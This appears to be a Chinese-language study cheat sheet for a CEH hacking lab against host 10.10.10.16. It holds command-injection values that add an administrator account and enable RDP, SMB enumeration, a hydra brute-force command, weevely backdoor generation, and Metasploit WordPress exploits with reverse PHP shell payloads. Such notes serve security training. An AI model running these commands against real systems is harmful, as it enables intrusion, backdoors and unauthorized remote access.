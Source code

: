 


## 連結
- [https://www.cvedetails.com](https://www.cvedetails.com)
- [https://www.exploit-db.com/](https://www.exploit-db.com/)
- [putty](https://the.earth.li/~sgtatham/putty/latest/w64/putty.exe)
- [git](https://git-scm.com/downloads/win)
- [vscode](https://code.visualstudio.com/)


## linux
```bash
sudo systemctl start ssh # sudo service ssh restart
sudo su

# 查網關
ip route
ifconfig
route -n


# 加使用者cehp、並給sudo
sudo useradd cehp
sudo passwd cehp #會提示你輸入密碼
cut -d: -f1 /etc/passwd | grep cehp
sudo usermod -aG sudo cehp # 或sudo usermod -aG wheel cehp
getent group sudo # getent group wheel
```

## windows
```powershell
ipconfig # echo %userdomain%

# 共享資料夾
net use \\10.10.10.16 apple /u:martin
net view \\10.10.10.16

# 管道
echo 123 | whoami
| net user cehp /add
| net users
| net localgroup Administrators cehp /add
| net localgroup Administrators
| reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Terminal Server" /vfDenyTSConnections /t REG_DWORD /d 0 /f
| netstat -an | findstr :3389

net user cehp
```


## 常用服務和Port

- 22: SSH(Secure Shell)，用於安全遠程登錄。
- 23: Telnet，非加密的遠程登錄服務。
- 25: SMTP(Simple Mail Transfer Protocol)，用於傳輸電子郵件。
- 53: DNS
- 80: HTTP(Hypertext Transfer Protocol)，用於網頁傳輸。
- 88: Kerberos，一种AD网络身份验证协议，广泛用于基于票据的身份验证机制
- 123: NTP(Network Time Protocol)，用於時間同步。
- 135: RPC(Remote Procedure Call)，用於遠程進程調用。
- 137(UDP/TCP): NetBIOS Name Service，用于将计算机名称解析为 IP 地址，类似于 DNS 的功能，但适用于 NetBIOS 网络。NetBIOS 是一种老旧协议，在现代网络中逐渐被替代(如 DNS 和 SMB 直接使用 TCP/445)。
- 138(UDP): NetBIOS Datagram Service，用于在局域网中发送广播消息(如发送网络通知)。
- 139(TCP): NetBIOS Session Service，用于建立和维护基于 NetBIOS 的会话，支持文件共享、打印机共享等功能。
- 161: SNMP，簡單網管。网络设备通过 SNMP 向管理系统报告状态，或者允许管理系统更改设备配置。SNMPv1、SNMPv2c:  明文传输，安全性较低。SNMPv3:  提供认证和加密功能，增强安全性。
- 389: LDAP(Lightweight Directory Access Protocol)，用於訪問目錄服務。
- 443: HTTPS(HTTP over SSL/TLS)，加密的網頁傳輸。
- 445: SMB(Server Message Block)，微軟的檔案、印表機。用於共享文件和資源。
- 636: LDAPS(LDAP over SSL/TLS)，加密的 LDAP。
- 1900: 是 UPnP(通用即插即用) 的核心协议之一。SSDP 用于在局域网中发现网络设备(如打印机、路由器、媒体服务器等)。
- 2049: NFS(Network File System)，用於文件系統共享。
- 3268: Microsoft Global Catalog，Active Directory 全局编录服务
- 3389: RDP
- 5353: Zerocon
- 48101: 常見於物聯網(IOT)設備，特別是 Mirai C&C(Command and Control)。





## 其他指令
```bash
snmp-check 10.10.10.16
nbtscan 10.10.10.1-254
enum4linux 10.10.10.16
enum4linux -u martin -p apple -a 10.10.10.16
hydra -L win32-users.txt -P /usr/share/wordlists/nmap.lst smb://10.10.10.16


# 列舉分享資料夾
python3 -m pip install --upgrade impacket
crackmapexec smb 10.10.10.16 -u martin -p apple --shares
```




## 製作後門php
```bash
weevely generate cehp backdoor.php #cehp為後門密碼
weevely http://10.10.10.16:8080/dvwa/hackable/uploads/backdoor.php cehp
```


## WPScan
```bash
whatweb http://10.10.10.16:8080/ceh
wpscan --url http://10.10.10.16:8080/ceh -e u # -e u表示列舉使用者
wpscan --url http://10.10.10.16:8080/ceh -P /usr/share/wordlists/nmap.lst # -e u表示列舉使用者
wpscan --url http://10.10.10.16:8080/ceh --api-token
```



## Metasploit
```bash
sudo service postgresql start
msfconsole

use exploit/unix/webapp/wp_admin_shell_upload
show info
set RHOSTS 10.10.10.16
set RPORT 8080
set TARGETURI /ceh
set USERNAME admin
set PASSWORD qwerty@123
set PAYLOAD php/reverse_php
exploit
```

```bash
msfconsole
use exploit/unix/webapp/wp_photo_gallery_unrestricted_file_upload
show info
set RHOSTS 10.10.10.16
set RPORT 8080
set TARGETURI /ceh
set USERNAME cehuser1
set PASSWORD green
set PAYLOAD php/reverse_php
exploit
```


## wordpress外掛
[https://downloads.wordpress.org/plugin/photo-gallery.1.2.5.zip](https://downloads.wordpress.org/plugin/photo-gallery.1.2.5.zip)

